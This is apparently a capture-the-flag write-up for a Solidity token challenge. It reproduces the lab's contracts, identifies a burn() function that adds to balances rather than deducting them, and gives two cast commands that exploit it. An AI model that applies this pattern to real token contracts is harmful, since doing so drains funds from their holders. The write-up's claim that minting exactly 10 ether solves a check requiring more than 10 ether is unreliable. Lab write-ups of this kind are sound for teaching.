 This Heist require you to get at least 10 Ether from the NewBank that they create in the mist of Inju Bank fall. &nbsp;  
&nbsp;  
```solidity
pragma solidity ^0.8.26;

import "./NewBank.sol";

contract Setup{
    NewBank public NB;
    address public player;

    constructor(uint256 _initialSupply) {
        NB = new NewBank(_initialSupply);
    }

    function setPlayer() public{
        require(msg.sender == tx.origin, "Only Human are allowed to be Player");
        player = msg.sender;
    }

    function isSolved() public view returns(bool){
        return NB.balanceOf(player) > 10 ether;
    }
}
```
&nbsp;  
In the *Setup Contract*, we can know that the *isSolved()* function require us to first *setPlayer()* and it can only be an EOA, meaning we can't use any Exploit Contract here. Now let's see other files that also given to us, *BetterERC20.sol* and *NewBank.sol*, we are going to see the *BetterERC20.sol* first &nbsp;  
&nbsp;  
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.26;

interface IBetterERC20 {
    function transfer(address _to, uint256 _value) external returns (bool);

    function transferFrom(
        address _from,
        address _to,
        uint256 _value
    ) external returns (bool);

    function approve(address _spender, uint256 _value) external returns (bool);

    function mint(uint256 _value) external;

    function burn(address _who, uint256 _value) external;

    function owner() external view returns (address);

    function balanceOf(address _who) external view returns (uint256);

    function allowance(
        address _owner,
        address _spender
    ) external view returns (uint256);

    function name() external view returns (string memory);

    function symbol() external view returns (string memory);

    function decimals() external view returns (uint8);
}
```
&nbsp;  
Turns out it's not a contract, but an Interface and to be prcise, it's ERC20 Interface. Knowing that we are working with an ERC Standard, makes the scope of search much easier, what we need to be focused on here is a misimplementation or override of the ERC20 original function. For this, let's see the *NewBank Contract* &nbsp;  
&nbsp;  
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.26;

import {IBetterERC20} from "./BetterERC20.sol";

contract NewBank is IBetterERC20{
    address public override owner;
    mapping(address => uint256) public override balanceOf;
    mapping(address => mapping(address => uint256)) public override allowance;

    string public override name = "NewBank Token";
    string public override symbol = "NBT";
    uint8 public override decimals = 18;

    constructor(uint256 _initialSupply) {
        owner = msg.sender;
        balanceOf[msg.sender] = _initialSupply;
    }

    function transfer(address _to, uint256 _value) external override returns (bool) {
        require(balanceOf[msg.sender] >= _value, "Insufficient balance");
        balanceOf[msg.sender] -= _value;
        balanceOf[_to] += _value;
        return true;
    }

    function transferFrom(address _from, address _to, uint256 _value) external override returns (bool) {
        require(balanceOf[_from] >= _value, "Insufficient balance");
        require(allowance[_from][msg.sender] >= _value, "Allowance exceeded");
        balanceOf[_from] -= _value;
        balanceOf[_to] += _value;
        allowance[_from][msg.sender] -= _value;
        return true;
    }

    function approve(address _spender, uint256 _value) external override returns (bool) {
        allowance[msg.sender][_spender] = _value;
        return true;
    }

    function mint(uint256 _value) external override {
        require(msg.sender == owner, "Only Owner are allowed to mint!");
        balanceOf[msg.sender] += _value;
    }

    function burn(address _who, uint256 _value) external override {
        require(balanceOf[_who] <= _value, "Insufficient balance to burn");
        balanceOf[_who] += _value;
    }
    
}
```
&nbsp;  
After viewing all the function here, it seems almost everything is okay except the *burn()* function. *burn()* usually remove a token from the supply and deduct the balance, but this time it's adding it instead of deducting it, so this is the flaw. &nbsp;  
&nbsp;  
We already found the way to get ourselves some balance, by calling the *burn()* with the value of address pointing to our wallet with the value of 10 Ether, so let's just do that! &nbsp;  
&nbsp;  
```bash
// Getting the NewBank Address
cast call -r $RPC_URL $SETUP_ADDR "NB()"

// Get Ourselves 10 Ether
cast send -r $RPC_URL --private-key $PK $NB_ADDR "burn(address,uint256)" $WALLET_ADDR 10000000000000000000
```
&nbsp;  
By running the commands above in your terminal, you should've solve the lab!
